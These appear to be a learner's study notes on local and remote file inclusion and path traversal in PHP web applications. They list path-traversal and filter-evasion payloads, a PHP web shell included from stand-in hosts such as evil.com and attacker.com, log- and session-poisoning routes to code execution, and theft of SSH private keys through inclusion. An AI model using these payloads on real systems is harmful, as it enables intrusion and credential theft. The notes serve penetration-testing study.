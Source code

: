 # Local/Remote File Inclusion OR Path Traversal

_Notes from lessons by PinkDraconian_

**What are File Inclusions?**

Consider a URL: https://example.com/view?file=cats.txt

The backend code accepts unsanitized user input:
```
$file = $_GET['file'];
include($file);
```

Threat - Attacker can use this to retrieve (include) any other file: https://example.com/view?file=../../etc/passwd

Two types:
1. **Local FI** : If the included file is local to the target (like the /etc/passwd file). Common but hard to exploit.
2. **Remote FI** : If the inlcuded file is remote to the target (attacker hosted exploit being executed by the target server). Less common but easier to exploit.

Severity: By itself it is low. Need to chain it to make it impactful. Eg: LFI leading to RCE or sensitive info exposure.

**How to find a target?**

Scenarios to lookout for:
1. Files fetched and printed to a page. https://example.com/?file=cats.txt
2. Files served as downloads. https://example.com/?download=cats.mp4
3. Files parsed by a backend interpreter. https://example.com?load=cats.php
4. The above examples are GET parameters. We should also look at POST fields.

List of useful parameters
```
cat   dir   action    board   date
detail    file    download    path    
folder    prefix    include   page
inc   locate    show    doc   site
type    view    content   document
layout    mod
```

## Test if the target is vulnerable
1. Grab a file that you know will exist on the system
```
Linux: /etc/passwd
Windows: %WINDIR%\win.ini
MacOS: /etc/fstab
```
2. Add a lot of `../../../` because you neet to reach `/`. And `../` of `/` is `/`.

## Evade Filters:

1. Null Byte Termination
```
?param=../../../etc/passwd%00
```
2. Double HTML encoding
3. UTF-8 encoding
4. Path and Dot truncation - PHP truncates very long filenames
```
?param-../../../etc/passwd........[Add more]
?param-../../../etc/passwd\.\.\.\.[Add more]
?param-../../../etc/passwd/./././.[Add more]
?param-../../../[Add more]../../../etc/passwd
```
5. Add extra ../ If a system removes `../` from `....//` it will still be `../`
```
?param=....//....//etc/passwd
?param=..///////..////..//////etc/passwd
?param=..///////..////..///////etc/passwd
```
6. NGINX Alias LFI
If there is an alias mapping like
```
location /i {
  alias /data/w3/images/;
 }
```
If we browse to `/i../` instead of `i` -> we will browse to `/data/w3` instead of `/data/w3/images`
7. Basic RFI
```
?param=http://evil.com/shell.php
```
8. SMB Shares - In PHP when `allow_url_include` and `allow_url_fopen` are disabled, we can use SMB shares (windows only) for file inclusion.
```
?param=\\IP\SHARE\shell.php
```

## Towards RCE

### 1. Host a malicious file on attacker's website
```
<?php 
system($_GET['c']);
?>
```
Include the malicious file
```
https://example.com/index.php?file=http://attacker.com/mal.php
```

### 2. Apache logs LFI
- You can make a request with the payload as a header. This will write it to the log file `/var/log/apache2/access.log`. 
- If you can include the log file, the server might execute the payload code.
```
# Make a request to 
https://example.com/index.php?file=/var/log/apache2/access.log&c=whoami
# Add the payload as User-Agent string
<?php system($_GET['c']);?>
```
Check if response has the output of the command passed using `c` parameter.

### 3. Through `/proc/self/environ`
- The `/proc/self/environ` contains information about the current process which is the web server.
- You can make a request with the payload as a User-Agent header.
- If you can include the `/proc/self/environ` file, you might see the result of the payload executed.


### 4. Through email
- You can send an email containing the payload to a USER.
- If you can include `/var/mail/USER`, you might see the result of the payload executed.

### 5. Using VSFTPD log
- The VSFTPD log is `/var/log/vsftpd.log`
- We can login to the VSFTPD service with the payload as the username. This invalid login will be logged.
- If you can include `/var/log/vsftpd.log`, you might see the result of the payload executed.

### 6. Using File upload
- Upload a malicious file and include it.
- Upload a zip file (file.zip) containing a php file (rce.php). Include using a **zip wrapper** `zip://file.zip%23rce.php`

### 7. Using exposed `phpinfo()`
- Check if `file_uploads = on` in the exposed phpinfo() page.
- Upload a malicious file using phpinfo. It will be stored in `/tmp` for a very short period of time.

### 8. Through SSH
- Include `/home/USER/.ssh/id_rsa`
- Get the rpivate key and crack it if needed.
- Then SSH as the user `ssh -i id_rsa user@ip`.

### 9. Through PHP sessions
- PHP session cookie info is stored in `/var/lib/php5/sess_COOKIE` file.
- Change the cookie value to the payload. It will be logged.
- If included it may show the result of payload execution.

### 10. Through `/proc/PID/fd/FD` [NOT FEASIBLE]
- Send payloads in as many services (processes) as possible.
- Bruteforce the PID and fd to find a process log file that has the result of the payload execution.

**Wrappers**

We can use wrappers to fetch source code. This itself is a vulnerability,but can als be used for further white-box analysis.

1. php://filter 
2. data://
3. input://
4. zip://
5. phar://
6. expect:// (not enabled by default)

**Wordlists**
1. [Sec lists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
2. [List of files to look at](https://github.com/hussein98d/LFI-files)

**Resources**
1. [Apache LFI using log poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/) 
2. [Wrappers Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
